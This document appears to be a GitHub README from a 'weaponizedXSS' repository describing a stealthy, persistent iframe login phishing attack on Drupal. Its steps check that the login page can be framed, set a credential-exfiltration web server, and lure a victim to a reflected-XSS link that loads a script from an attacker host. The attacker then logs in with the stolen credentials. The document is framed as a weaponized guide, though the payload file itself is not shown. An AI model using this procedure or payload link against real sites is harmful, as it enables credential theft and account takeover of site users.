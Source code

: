 # [unauthn] Iframe Login Page (Phish)

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.17

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.17/user/login";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginDrupal.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/drupal"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/rxss.php?q=<script src=http://192.168.5.5/phishLoginDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Drupal site using obtained credentials

    http://192.168.5.17/user/login

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8410fe5a-2bad-409a-a52f-479e15ca0dc0

